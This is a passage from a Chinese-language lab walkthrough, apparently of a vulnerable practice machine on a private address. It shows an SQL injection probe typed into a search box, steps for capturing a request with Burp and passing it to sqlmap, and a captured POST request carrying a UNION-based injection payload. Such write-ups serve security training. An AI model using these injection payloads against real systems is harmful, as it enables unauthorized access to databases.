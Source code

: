 ![image-20220322144335567](https://gitee.com/xxb667/img/raw/master/img/image-20220322144335567.png)

manage界面

```
http://192.168.81.145/manage.php
```

![image-20220322144428594](https://gitee.com/xxb667/img/raw/master/img/image-20220322144428594.png)

# 2.漏洞探测

## 2.1 SQL注入

在搜索框里，我们可以进行sql注入判断是否有sql注入漏洞

```
Mary' and 1=1#
```

数据正常显示，说明存在sql注入漏洞

![image-20220322145110773](https://gitee.com/xxb667/img/raw/master/img/image-20220322145110773.png)

## 2.2 sqlmap获得数据库

获得post文件

- 用burp对网站数据进行抓包
- 获得post文件
- 并把文件中的内容复制，粘贴到一个txt文件里面
- 然后把这个文件复制到kali中
- 并在文件的路径下打开终端运行sqlmap

burp抓包

![image-20220322145409971](https://gitee.com/xxb667/img/raw/master/img/image-20220322145409971.png)

抓取到的内容

注意：

抓包时一定要抓出现结果的那个地址

```
POST /results.php HTTP/1.1
Host: 192.168.81.145
Content-Length: 63
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.81.145
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.81.145/search.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=eaprmj9t8g7uuc8240bpe0h02q
dnt: 1
sec-gpc: 1
Connection: close

search=-1%27+union+select+database%28%29%2C1%2C2%2C3%2C4%2C5%23
```
